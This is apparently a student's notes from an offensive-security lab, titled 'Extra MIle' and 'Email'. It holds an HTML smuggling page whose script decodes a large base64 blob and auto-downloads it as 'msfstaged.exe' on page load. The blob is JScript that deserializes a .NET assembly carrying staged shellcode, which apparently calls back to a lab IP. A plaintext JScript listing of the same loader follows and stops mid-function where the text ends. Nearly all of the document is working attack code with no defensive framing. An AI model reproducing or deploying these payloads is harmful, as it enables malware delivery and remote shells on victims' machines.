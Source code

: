 Extra MIle

Email



HTML

<html>
	<body>
		<script>
			function base64ToArrayBuffer(base64) {
				var binary_string = window.atob(base64);
				var len = binary_string.length;
				var bytes = new Uint8Array( len );
				for (var i = 0; i < len; i++) {bytes[i] = binary_string.charCodeAt(i);}
				return bytes.buffer;
			}
			var file = "ZnVuY3Rpb24gc2V0dmVyc2lvbigpIHsNCm5ldyBBY3RpdmVYT2JqZWN0KCdXU2NyaXB0LlNoZWxs
JykuRW52aXJvbm1lbnQoJ1Byb2Nlc3MnKSgnQ09NUExVU19WZXJzaW9uJykgPSAndjQuMC4zMDMx
OSc7DQp9DQpmdW5jdGlvbiBkZWJ1ZyhzKSB7fQ0KZnVuY3Rpb24gYmFzZTY0VG9TdHJlYW0oYikg
ewoJdmFyIGVuYyA9IG5ldyBBY3RpdmVYT2JqZWN0KCJTeXN0ZW0uVGV4dC5BU0NJSUVuY29kaW5n
Iik7Cgl2YXIgbGVuZ3RoID0gZW5jLkdldEJ5dGVDb3VudF8yKGIpOwoJdmFyIGJhID0gZW5jLkdl
dEJ5dGVzXzQoYik7Cgl2YXIgdHJhbnNmb3JtID0gbmV3IEFjdGl2ZVhPYmplY3QoIlN5c3RlbS5T
ZWN1cml0eS5DcnlwdG9ncmFwaHkuRnJvbUJhc2U2NFRyYW5zZm9ybSIpOwoJYmEgPSB0cmFuc2Zv
cm0uVHJhbnNmb3JtRmluYWxCbG9jayhiYSwgMCwgbGVuZ3RoKTsKCXZhciBtcyA9IG5ldyBBY3Rp
dmVYT2JqZWN0KCJTeXN0ZW0uSU8uTWVtb3J5U3RyZWFtIik7Cgltcy5Xcml0ZShiYSwgMCwgKGxl
bmd0aCAvIDQpICogMyk7Cgltcy5Qb3NpdGlvbiA9IDA7CglyZXR1cm4gbXM7Cn0KCnZhciBzZXJp
YWxpemVkX29iaiA9ICJBQUVBQUFELy8vLy9BUUFBQUFBQUFBQUVBUUFBQUNKVGVYTjBaVzB1UkdW
c1pXZGhkR1ZUWlhKcFlXeHBlbUYwYVc5dVNHOXNaR1Z5IisNCiJBd0FBQUFoRVpXeGxaMkYwWlFk
MFlYSm5aWFF3QjIxbGRHaHZaREFEQXdNd1UzbHpkR1Z0TGtSbGJHVm5ZWFJsVTJWeWFXRnNhWHBo
IisNCiJkR2x2YmtodmJHUmxjaXRFWld4bFoyRjBaVVZ1ZEhKNUlsTjVjM1JsYlM1RVpXeGxaMkYw
WlZObGNtbGhiR2w2WVhScGIyNUliMnhrIisNCiJaWEl2VTNsemRHVnRMbEpsWm14bFkzUnBiMjR1
VFdWdFltVnlTVzVtYjFObGNtbGhiR2w2WVhScGIyNUliMnhrWlhJSkFnQUFBQWtEIisNCiJBQUFB
Q1FRQUFBQUVBZ0FBQURCVGVYTjBaVzB1UkdWc1pXZGhkR1ZUWlhKcFlXeHBlbUYwYVc5dVNHOXNa
R1Z5SzBSbGJHVm5ZWFJsIisNCiJSVzUwY25rSEFBQUFCSFI1Y0dVSVlYTnpaVzFpYkhrR2RHRnla
MlYwRW5SaGNtZGxkRlI1Y0dWQmMzTmxiV0pzZVE1MFlYSm5aWFJVIisNCiJlWEJsVG1GdFpRcHRa
WFJvYjJST1lXMWxEV1JsYkdWbllYUmxSVzUwY25rQkFRSUJBUUVETUZONWMzUmxiUzVFWld4bFoy
RjBaVk5sIisNCiJjbWxoYkdsNllYUnBiMjVJYjJ4a1pYSXJSR1ZzWldkaGRHVkZiblJ5ZVFZRkFB
QUFMMU41YzNSbGJTNVNkVzUwYVcxbExsSmxiVzkwIisNCiJhVzVuTGsxbGMzTmhaMmx1Wnk1SVpX
RmtaWEpJWVc1a2JHVnlCZ1lBQUFCTGJYTmpiM0pzYVdJc0lGWmxjbk5wYjI0OU1pNHdMakF1IisN
CiJNQ3dnUTNWc2RIVnlaVDF1WlhWMGNtRnNMQ0JRZFdKc2FXTkxaWGxVYjJ0bGJqMWlOemRoTldN
MU5qRTVNelJsTURnNUJnY0FBQUFIIisNCiJkR0Z5WjJWME1Ba0dBQUFBQmdrQUFBQVBVM2x6ZEdW
dExrUmxiR1ZuWVhSbEJnb0FBQUFOUkhsdVlXMXBZMGx1ZG05clpRb0VBd0FBIisNCiJBQ0pUZVhO
MFpXMHVSR1ZzWldkaGRHVlRaWEpwWVd4cGVtRjBhVzl1U0c5c1pHVnlBd0FBQUFoRVpXeGxaMkYw
WlFkMFlYSm5aWFF3IisNCiJCMjFsZEdodlpEQURCd013VTNsemRHVnRMa1JsYkdWbllYUmxVMlZ5
YVdGc2FYcGhkR2x2YmtodmJHUmxjaXRFWld4bFoyRjBaVVZ1IisNCiJkSEo1QWk5VGVYTjBaVzB1
VW1WbWJHVmpkR2x2Ymk1TlpXMWlaWEpKYm1adlUyVnlhV0ZzYVhwaGRHbHZia2h2YkdSbGNna0xB
QUFBIisNCiJDUXdBQUFBSkRRQUFBQVFFQUFBQUwxTjVjM1JsYlM1U1pXWnNaV04wYVc5dUxrMWxi
V0psY2tsdVptOVRaWEpwWVd4cGVtRjBhVzl1IisNCiJTRzlzWkdWeUJnQUFBQVJPWVcxbERFRnpj
MlZ0WW14NVRtRnRaUWxEYkdGemMwNWhiV1VKVTJsbmJtRjBkWEpsQ2sxbGJXSmxjbFI1IisNCiJj
R1VRUjJWdVpYSnBZMEZ5WjNWdFpXNTBjd0VCQVFFQUF3Z05VM2x6ZEdWdExsUjVjR1ZiWFFrS0FB
QUFDUVlBQUFBSkNRQUFBQVlSIisNCiJBQUFBTEZONWMzUmxiUzVQWW1wbFkzUWdSSGx1WVcxcFkw
bHVkbTlyWlNoVGVYTjBaVzB1VDJKcVpXTjBXMTBwQ0FBQUFBb0JDd0FBIisNCiJBQUlBQUFBR0Vn
QUFBQ0JUZVhOMFpXMHVXRzFzTGxOamFHVnRZUzVZYld4V1lXeDFaVWRsZEhSbGNnWVRBQUFBVFZO
NWMzUmxiUzVZIisNCiJiV3dzSUZabGNuTnBiMjQ5TWk0d0xqQXVNQ3dnUTNWc2RIVnlaVDF1WlhW
MGNtRnNMQ0JRZFdKc2FXTkxaWGxVYjJ0bGJqMWlOemRoIisNCiJOV00xTmpFNU16UmxNRGc1QmhR
QUFBQUhkR0Z5WjJWME1Ba0dBQUFBQmhZQUFBQWFVM2x6ZEdWdExsSmxabXhsWTNScGIyNHVRWE56
IisNCiJaVzFpYkhrR0Z3QUFBQVJNYjJGa0NnOE1BQUFBQUJZQUFBSk5XcEFBQXdBQUFBUUFBQUQv
L3dBQXVBQUFBQUFBQUFCQUFBQUFBQUFBIisNCiJBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFB
QUFBQUFBQUFBQUNBQUFBQURoKzZEZ0MwQ2MwaHVBRk16U0ZVYUdseklIQnliMmR5IisNCiJZVzBn
WTJGdWJtOTBJR0psSUhKMWJpQnBiaUJFVDFNZ2JXOWtaUzRORFFva0FBQUFBQUFBQUZCRkFBQmto
Z0lBTEwra1lRQUFBQUFBIisNCiJBQUFBOEFBaUlBc0NNQUFBRGdBQUFBWUFBQUFBQUFBQUFBQUFB
Q0FBQUFBQUFJQUJBQUFBQUNBQUFBQUNBQUFFQUFBQUFBQUFBQVFBIisNCiJBQUFBQUFBQUFHQUFB
QUFDQUFBQUFBQUFBd0JBaFFBQVFBQUFBQUFBQUVBQUFBQUFBQUFBQUJBQUFBQUFBQUFnQUFBQUFB
QUFBQUFBIisNCiJBQkFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUVBQUFBd0VBQUFBQUFBQUFB
QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQmtLUUFBIisNCiJIQUFBQUFBQUFBQUFBQUFBQUFBQUFB
QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBIisN
CiJBQUFBQUNBQUFFZ0FBQUFBQUFBQUFBQUFBQzUwWlhoMEFBQUFiQTBBQUFBZ0FBQUFEZ0FBQUFJ
QUFBQUFBQUFBQUFBQUFBQUFBQ0FBIisNCiJBR0F1Y25OeVl3QUFBQXdFQUFBQVFBQUFBQVlBQUFB
UUFBQUFBQUFBQUFBQUFBQUFBQUJBQUFCQUFBQUFBQUFBQUFBQUFBQUFBQUFBIisNCiJBQUFBQUFB
QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFFZ0FBQUFDQUFVQXZDQUFBS2dJQUFBQkFBQUFBQUFB
QUFBQUFBQUFBQUFBIisNCiJBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFB
QUFBQUFBQUFBQUFBQUJNd0JnQmRBQUFBQVFBQUVRSW9Ed0FBIisNCiJDaURKQWdBQWpSSUFBQUVs
MEFFQUFBUW9FQUFBQ2lXT2FRcCtFUUFBQ2lBQUVBQUFJQUF3QUFBZlFDZ0JBQUFHQ3hZSEJpZ1NB
QUFLIisNCiJmaEVBQUFvV0IzNFJBQUFLRm40UkFBQUtLQUlBQUFZVktBTUFBQVltS2lJREtCTUFB
QW9tS2dBQVFsTktRZ0VBQVFBQUFBQUFEQUFBIisNCiJBSFl5TGpBdU5UQTNNamNBQUFBQUJRQnNB
QUFBQUFNQUFDTitBQUJzQXdBQTdBTUFBQ05UZEhKcGJtZHpBQUFBQUZnSEFBQUVBQUFBIisNCiJJ
MVZUQUZ3SEFBQVFBQUFBSTBkVlNVUUFBQUJzQndBQVBBRUFBQ05DYkc5aUFBQUFBQUFBQUFJQUFB
RlhsUUkwQ1FJQUFBRDZBVE1BIisNCiJGZ0FBQVFBQUFCZ0FBQUFFQUFBQUFRQUFBQVVBQUFBTkFB
QUFFd0FBQUE4QUFBQUJBQUFBQVFBQUFBRUFBQUFEQUFBQUFRQUFBQUVBIisNCiJBQUFDQUFBQUFR
QUFBQUFBaFFJQkFBQUFBQUFHQU1nQkVRTUdBRFVDRVFNR0FCVUIwQUlQQURFREFBQUdBRDBCb0FJ
R0FLc0JvQUlHIisNCiJBSXdCb0FJR0FCd0NvQUlHQU9nQm9BSUdBQUVDb0FJR0FGUUJvQUlHQUNr
QjhnSUdBQWNCOGdJR0FHOEJvQUlHQUswRG1RSUdBT3dBIisNCiJFUU1HQU5FQW1RSUdBRk1DbVFJ
R0FHTURFUU1HQU00RG1RSUdBTFlBbVFJR0FNa0NtUUlHQUhBQzhnSUtBSDhEMEFJQUFBQUFZQUFB
IisNCiJBQUFBQVFBQkFBRUFFQUJ5QXdBQVBRQUJBQUVBQUFFQUFHa0FBQUE5QUFFQUJnQVRBUUFB
QVFBQUFFVUFBZ0FHQURNQkh3QkNBQUFBIisNCiJBQUNBQUpFZ2tRQkdBQUVBQUFBQUFJQUFrU0Nw
QUU0QUJRQUFBQUFBZ0FDUklLQURXQUFMQUVnZ0FBQUFBSVlZd3dJR0FBMEFzU0FBIisNCiJBQUFB
aGdCOEF4QUFEUUFBQUFFQWh3TUFBQUlBWkFJQUFBTUEyd0FBQUFRQXRBTUFBQUVBUUFNQUFBSUFX
QUlBQUFNQWtRTUFBQVFBIisNCiJ0d0lBQUFVQVV3TUFBQVlBbmdBQUFBRUF5UUFBQUFJQTR3SUFB
QUVBYXdJSkFNTUNBUUFSQU1NQ0JnQVpBTU1DQ2dBcEFNTUNFQUF4IisNCiJBTU1DRUFBNUFNTUNF
QUJCQU1NQ0VBQkpBTU1DRUFCUkFNTUNFQUJaQU1NQ0VBQmhBTU1DRlFCcEFNTUNFQUJ4QU1NQ0VB
Q0JBTU1DIisNCiJCZ0I1QU1NQ0JnQ1pBTVFESHdDeEFMSUNKd0M1QU9RREtnREJBTDRETXdBdUFB
c0FYZ0F1QUJNQVp3QXVBQnNBaGdBdUFDTUFqd0F1IisNCiJBQ3NBcEFBdUFETUF6Z0F1QURzQXpn
QXVBRU1BandBdUFFc0ExQUF1QUZNQXpnQXVBRnNBemdBdUFHTUErUUF1QUdzQUl3RkRBRnNBIisN
CiJNQUZqQUhNQU5nRUJBTWtDQUFBRUFCb0FlQUpCQVFNQWtRQUJBQUFCQlFDcEFBRUFBQUVIQUtB
REFRQ2NLZ0FBQVFBRWdBQUFBUUFBIisNCiJBQUFBQUFBQUFBQUFBQURVQXdBQUFnQUFBQUFBQUFB
QUFBQUFPUUNJQUFBQUFBQUNBQUFBQUFBQUFBQUFBQUE1QUprQ0FBQUFBQVFBIisNCiJBd0FBQUFB
QUFGOWZVM1JoZEdsalFYSnlZWGxKYm1sMFZIbHdaVk5wZW1VOU56RXpBRVpETTBZNU4wUTVSVFl6
TlRGR05UazBSa00zIisNCiJPVFl6UXpnMFFqZENNMFZDUWpWQ016QXlSa00xTkVVNFJVSXhOVGMz
UmpoRVFqTTRNVGczTkRBeE9Ua0FQRTF2WkhWc1pUNEFQRkJ5IisNCiJhWFpoZEdWSmJYQnNaVzFs
Ym5SaGRHbHZia1JsZEdGcGJITStBRzF6WTI5eWJHbGlBRlpwY25SMVlXeEJiR3h2WXdCc2NGUm9j
bVZoIisNCiJaRWxrQUVOeVpXRjBaVlJvY21WaFpBQlNkVzUwYVcxbFJtbGxiR1JJWVc1a2JHVUFh
RWhoYm1Sc1pRQldZV3gxWlZSNWNHVUFabXhCIisNCiJiR3h2WTJGMGFXOXVWSGx3WlFCRGIyMXdh
V3hsY2tkbGJtVnlZWFJsWkVGMGRISnBZblYwWlFCSGRXbGtRWFIwY21saWRYUmxBRVJsIisNCiJZ
blZuWjJGaWJHVkJkSFJ5YVdKMWRHVUFRMjl0Vm1semFXSnNaVUYwZEhKcFluVjBaUUJCYzNObGJX
SnNlVlJwZEd4bFFYUjBjbWxpIisNCiJkWFJsQUVGemMyVnRZbXg1VkhKaFpHVnRZWEpyUVhSMGNt
bGlkWFJsQUVGemMyVnRZbXg1Um1sc1pWWmxjbk5wYjI1QmRIUnlhV0oxIisNCiJkR1VBUVhOelpX
MWliSGxEYjI1bWFXZDFjbUYwYVc5dVFYUjBjbWxpZFhSbEFFRnpjMlZ0WW14NVJHVnpZM0pwY0hS
cGIyNUJkSFJ5IisNCiJhV0oxZEdVQVEyOXRjR2xzWVhScGIyNVNaV3hoZUdGMGFXOXVjMEYwZEhK
cFluVjBaUUJCYzNObGJXSnNlVkJ5YjJSMVkzUkJkSFJ5IisNCiJhV0oxZEdVQVFYTnpaVzFpYkhs
RGIzQjVjbWxuYUhSQmRIUnlhV0oxZEdVQVFYTnpaVzFpYkhsRGIyMXdZVzU1UVhSMGNtbGlkWFJs
IisNCiJBRkoxYm5ScGJXVkRiMjF3WVhScFltbHNhWFI1UVhSMGNtbGlkWFJsQUVKNWRHVUFaSGRU
ZEdGamExTnBlbVVBWkhkVGFYcGxBSEJoIisNCiJkR2dBVFdGeWMyaGhiQUJyWlhKdVpXd3pNaTVr
Ykd3QVJYaGhiWEJzWlVGemMyVnRZbXg1TG1Sc2JBQlRlWE4wWlcwQVUzbHpkR1Z0IisNCiJMbEps
Wm14bFkzUnBiMjRBV21WeWJ3QnNjRkJoY21GdFpYUmxjZ0F1WTNSdmNnQkpiblJRZEhJQVUzbHpk
R1Z0TGtScFlXZHViM04wIisNCiJhV056QUdSM1RXbHNiR2x6WldOdmJtUnpBRk41YzNSbGJTNVNk
VzUwYVcxbExrbHVkR1Z5YjNCVFpYSjJhV05sY3dCVGVYTjBaVzB1IisNCiJVblZ1ZEdsdFpTNURi
MjF3YVd4bGNsTmxjblpwWTJWekFFUmxZblZuWjJsdVowMXZaR1Z6QUd4d1ZHaHlaV0ZrUVhSMGNt
bGlkWFJsIisNCiJjd0JrZDBOeVpXRjBhVzl1Um14aFozTUFVblZ1ZEdsdFpVaGxiSEJsY25NQVZH
VnpkRU5zWVhOekFGSjFibEJ5YjJObGMzTUFiSEJCIisNCiJaR1J5WlhOekFHeHdVM1JoY25SQlpH
UnlaWE56QUZkaGFYUkdiM0pUYVc1bmJHVlBZbXBsWTNRQVpteFFjbTkwWldOMEFGTjBZWEowIisN
CiJBRWx1YVhScFlXeHBlbVZCY25KaGVRQkZlR0Z0Y0d4bFFYTnpaVzFpYkhrQVEyOXdlUUFBQUFB
QUFBQUFiMk9KcFhXRDVVT0lLN1NMIisNCiJFb0w5VEFBRUlBRUJDQU1nQUFFRklBRUJFUkVFSUFF
QkRnUWdBUUVDQkFjQ0NCZ0hBQUlCRWxFUlZRSUdHQWdBQkFFZEJRZ1lDQVVBIisNCiJBUkpoRGdp
M2VseFdHVFRnaVFNR0VSQUhBQVFZR0FrSkNRa0FCaGdZQ1JnWUNSZ0ZBQUlKR0FrSUFRQUlBQUFB
QUFBZUFRQUJBRlFDIisNCiJGbGR5WVhCT2IyNUZlR05sY0hScGIyNVVhSEp2ZDNNQkNBRUFBZ0FB
QUFBQUZBRUFEMFY0WVcxd2JHVkJjM05sYldKc2VRQUFLUUVBIisNCiJKRVY0WVcxd2JHVWdRWE56
WlcxaWJIa2dabTl5SUVSdmRFNWxkRlJ2U2xOamNtbHdkQUFBQlFFQUFBQUFKQUVBSDBOdmNIbHlh
V2RvIisNCiJkQ0RDcVNCS1lXMWxjeUJHYjNKemFHRjNJREl3TVRjQUFDa0JBQ1ExTmpVNU9HWXhZ
eTAyWkRnNExUUTVPVFF0WVRNNU1pMWhaak16IisNCiJOMkZpWlRVM056Y0FBQXdCQUFjeExqQXVN
QzR3QUFBRkFRQUJBQUFFQVFBQUFBQUFBQUFBSzcra1lRQUFBQUFDQUFBQUhBRUFBSUFwIisNCiJB
QUNBQ3dBQVVsTkVVd3JsMFJsZTE5aEdoN0JYUGR4TXc3Z0JBQUFBWEZ3eE9USXVNVFk0TGpRNUxq
YzFYSFpwYzNWaGJITjBkV1JwIisNCiJiMXhGZUdGdGNHeGxRWE56WlcxaWJIbGNiMkpxWEhnMk5G
eFNaV3hsWVhObFhFVjRZVzF3YkdWQmMzTmxiV0pzZVM1d1pHSUFBQUFBIisNCiJBQUFBQUFBQUFB
QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFB
QUFBQUFBQUFBIisNCiJBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFB
QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBIisNCiJBQUFBQUFBQUFBQUFBQUFBQUFB
QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFB
IisNCiJBQUFBQUFEOFNJUGs4T2pNQUFBQVFWRkJVRkpSVmtneDBtVklpMUpnU0l0U0dFaUxVaUJJ
RDdkS1NrMHh5VWlMY2xCSU1jQ3NQR0Y4IisNCiJBaXdnUWNISkRVRUJ3ZUx0VWtpTFVpQ0xRanhJ
QWRCQlVXYUJlQmdMQWcrRmNnQUFBSXVBaUFBQUFFaUZ3SFJuU0FIUWkwZ1lSSXRBIisNCiJJRkJK
QWREalZrMHh5VWoveVVHTE5JaElBZFpJTWNCQndja05yRUVCd1RqZ2RmRk1BMHdrQ0VVNTBYWFlX
RVNMUUNSSkFkQm1RWXNNIisNCiJTRVNMUUJ4SkFkQkJpd1NJUVZoQldFZ0IwRjVaV2tGWVFWbEJX
a2lEN0NCQlV2L2dXRUZaV2tpTEV1bEwvLy8vWFVneDIxTkp2bmRwIisNCiJibWx1WlhRQVFWWklp
ZUZKeDhKTWR5WUgvOVZUVTBpSjRWTmFUVEhBVFRISlUxTkp1anBXZWFjQUFBQUEvOVhvRGdBQUFE
RTVNaTR4IisNCiJOamd1TkRrdU56VUFXa2lKd1VuSHdMc0JBQUJOTWNsVFUyb0RVMG02VjRtZnhn
QUFBQUQvMWVpZ0FBQUFMM0pRT0hWYU5IaHBkMHhYIisNCiJlbkUzUzNBd1p6aEpRbEZRVjBsMFZW
OWtlVXB2ZFV0UWExaEVPWHBvYjAxUWRWOXZabTV4YW1KMGExWm5jR1ZzZUZNNVVGVnJibTlJIisN
CiJlRE5VT1VKZlN5MVViWHBtU3pGRGEyVTFUalpCVmxNMFFWODNNa2swVldGQmMwcFpkR3hzYkVG
RVkxaHhkRmhYWVZGbFZ6WlNNbmxDIisNCiJRekZmV2xNeGJVbHVSVjl5UlZSNU1WcFBaRTVTY1Zo
Q2VWUnViMlZSYURCT0FFaUp3Vk5hUVZoTk1jbFRTTGdBTXFpRUFBQUFBRkJUIisNCiJVMG5Id3V0
Vkxqdi8xVWlKeG1vS1gwaUo4V29mV2xKb2dETUFBRW1KNEdvRVFWbEp1blZHbm9ZQUFBQUEvOVZO
TWNCVFdraUo4VTB4IisNCiJ5VTB4eVZOVFNjZkNMUVlZZS8vVmhjQjFIMGpId1lnVEFBQkp1a1R3
TmVBQUFBQUEvOVZJLzg5MEF1dXE2RlVBQUFCVFdXcEFXa21KIisNCiIwY0hpRUVuSHdBQVFBQUJK
dWxpa1UrVUFBQUFBLzlWSWsxTlRTSW5uU0lueFNJbmFTY2ZBQUNBQUFFbUorVW02RXBhSjRnQUFB
QUQvIisNCiIxVWlEeENDRndIU3lab3NIU0FIRGhjQjEwbGpEV0dvQVdVbkh3dkMxb2xiLzFRQUFB
QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBIisNCiJBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFB
QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBIisNCiJB
QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFB
QUFBQUFBQUFBQUFBQUFBQUFBIisNCiJBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFB
QUFBQUFBQUFBQkFCQUFBQUFZQUFDQUFBQUFBQUFBQUFBQUFBQUFBQUFCIisNCiJBQUVBQUFBd0FB
Q0FBQUFBQUFBQUFBQUFBQUFBQUFBQkFBQUFBQUJJQUFBQVdFQUFBTEFEQUFBQUFBQUFBQUFBQUxB
RE5BQUFBRllBIisNCiJVd0JmQUZZQVJRQlNBRk1BU1FCUEFFNEFYd0JKQUU0QVJnQlBBQUFBQUFD
OUJPLytBQUFCQUFBQUFRQUFBQUFBQUFBQkFBQUFBQUEvIisNCiJBQUFBQUFBQUFBUUFBQUFDQUFB
QUFBQUFBQUFBQUFBQUFBQUFSQUFBQUFFQVZnQmhBSElBUmdCcEFHd0FaUUJKQUc0QVpnQnZBQUFB
IisNCiJBQUFrQUFRQUFBQlVBSElBWVFCdUFITUFiQUJoQUhRQWFRQnZBRzRBQUFBQUFBQUFzQVFR
QXdBQUFRQlRBSFFBY2dCcEFHNEFad0JHIisNCiJBR2tBYkFCbEFFa0FiZ0JtQUc4QUFBRHNBZ0FB
QVFBd0FEQUFNQUF3QURBQU5BQmlBREFBQUFCaUFDVUFBUUJEQUc4QWJRQnRBR1VBIisNCiJiZ0Iw
QUhNQUFBQkZBSGdBWVFCdEFIQUFiQUJsQUNBQVFRQnpBSE1BWlFCdEFHSUFiQUI1QUNBQVpnQnZB
SElBSUFCRUFHOEFkQUJPIisNCiJBR1VBZEFCVUFHOEFTZ0JUQUdNQWNnQnBBSEFBZEFBQUFBQUFJ
Z0FCQUFFQVF3QnZBRzBBY0FCaEFHNEFlUUJPQUdFQWJRQmxBQUFBIisNCiJBQUFBQUFBQVNBQVFB
QUVBUmdCcEFHd0FaUUJFQUdVQWN3QmpBSElBYVFCd0FIUUFhUUJ2QUc0QUFBQUFBRVVBZUFCaEFH
MEFjQUJzIisNCiJBR1VBUVFCekFITUFaUUJ0QUdJQWJBQjVBQUFBTUFBSUFBRUFSZ0JwQUd3QVpR
QldBR1VBY2dCekFHa0Fid0J1QUFBQUFBQXhBQzRBIisNCiJNQUF1QURBQUxnQXdBQUFBU0FBVUFB
RUFTUUJ1QUhRQVpRQnlBRzRBWVFCc0FFNEFZUUJ0QUdVQUFBQkZBSGdBWVFCdEFIQUFiQUJsIisN
CiJBRUVBY3dCekFHVUFiUUJpQUd3QWVRQXVBR1FBYkFCc0FBQUFZZ0FmQUFFQVRBQmxBR2NBWVFC
c0FFTUFid0J3QUhrQWNnQnBBR2NBIisNCiJhQUIwQUFBQVF3QnZBSEFBZVFCeUFHa0Fad0JvQUhR
QUlBQ3BBQ0FBU2dCaEFHMEFaUUJ6QUNBQVJnQnZBSElBY3dCb0FHRUFkd0FnIisNCiJBRElBTUFB
eEFEY0FBQUFBQUNvQUFRQUJBRXdBWlFCbkFHRUFiQUJVQUhJQVlRQmtBR1VBYlFCaEFISUFhd0J6
QUFBQUFBQUFBQUFBIisNCiJVQUFVQUFFQVR3QnlBR2tBWndCcEFHNEFZUUJzQUVZQWFRQnNBR1VB
YmdCaEFHMEFaUUFBQUVVQWVBQmhBRzBBY0FCc0FHVUFRUUJ6IisNCiJBSE1BWlFCdEFHSUFiQUI1
QUM0QVpBQnNBR3dBQUFCQUFCQUFBUUJRQUhJQWJ3QmtBSFVBWXdCMEFFNEFZUUJ0QUdVQUFBQUFB
RVVBIisNCiJlQUJoQUcwQWNBQnNBR1VBUVFCekFITUFaUUJ0QUdJQWJBQjVBQUFBTkFBSUFBRUFV
QUJ5QUc4QVpBQjFBR01BZEFCV0FHVUFjZ0J6IisNCiJBR2tBYndCdUFBQUFNUUF1QURBQUxnQXdB
QzRBTUFBQUFEZ0FDQUFCQUVFQWN3QnpBR1VBYlFCaUFHd0FlUUFnQUZZQVpRQnlBSE1BIisNCiJh
UUJ2QUc0QUFBQXhBQzRBTUFBdUFEQUFMZ0F3QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFB
QUFBQUFBQUFBQUFBQUFBQUFBIisNCiJBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFB
QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBIisNCiJBQUFBQUFBQUFB
QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFB
QUFBQUFBQUFBIisNCiJBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFB
QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBIisNCiJBQUFBQUFBQUFBQUFBQUFBQUFB
QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFB
IisNCiJBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFB
QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBIisNCiJBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFB
QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBIisNCiJBQUFB
QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFB
QUFBQUFBQUFBQUFBQUFBIisNCiJBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFB
QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBIisNCiJBQUFBQUFBQUFBQUFB
QUFBQUFBQUFRMEFBQUFFQUFBQUNSY0FBQUFKQmdBQUFBa1dBQUFBQmhvQUFBQW5VM2x6ZEdWdExs
SmxabXhsIisNCiJZM1JwYjI0dVFYTnpaVzFpYkhrZ1RHOWhaQ2hDZVhSbFcxMHBDQUFBQUFvTCI7
CnZhciBlbnRyeV9jbGFzcyA9ICdUZXN0Q2xhc3MnOwoKdHJ5IHsKCXNldHZlcnNpb24oKTsKCXZh
ciBzdG0gPSBiYXNlNjRUb1N0cmVhbShzZXJpYWxpemVkX29iaik7Cgl2YXIgZm10ID0gbmV3IEFj
dGl2ZVhPYmplY3QoJ1N5c3RlbS5SdW50aW1lLlNlcmlhbGl6YXRpb24uRm9ybWF0dGVycy5CaW5h
cnkuQmluYXJ5Rm9ybWF0dGVyJyk7Cgl2YXIgYWwgPSBuZXcgQWN0aXZlWE9iamVjdCgnU3lzdGVt
LkNvbGxlY3Rpb25zLkFycmF5TGlzdCcpOwoJdmFyIGQgPSBmbXQuRGVzZXJpYWxpemVfMihzdG0p
OwoJYWwuQWRkKHVuZGVmaW5lZCk7Cgl2YXIgbyA9IGQuRHluYW1pY0ludm9rZShhbC5Ub0FycmF5
KCkpLkNyZWF0ZUluc3RhbmNlKGVudHJ5X2NsYXNzKTsKCQp9IGNhdGNoIChlKSB7CiAgICBkZWJ1
ZyhlLm1lc3NhZ2UpOwp9"
			var data = base64ToArrayBuffer(file);
			var blob = new Blob([data], {type: 'octet/stream'});
			var fileName = 'msfstaged.exe';
										
			var a = document.createElement('a');
			document.body.appendChild(a);
			var url = window.URL.createObjectURL(blob);
			a.href = url;
			a.download = fileName;
			a.click();
			window.URL.revokeObjectURL(url);
		</script>
	</body>
</html>

JScript

function setversion() {
new ActiveXObject('WScript.Shell').Environment('Process')('COMPLUS_Version') = 'v4.0.30319';
}
function debug(s) {}
function base64ToStream(b) {
	var enc = new ActiveXObject("System.Text.ASCIIEncoding");
	var length = enc.GetByteCount_2(b);
	var ba = enc.GetBytes_4(b);
	var transform = new ActiveXObject("System.Security.Cryptography.FromBase64Transform");
	ba = transform.TransformFinalBlock(ba, 0, length);
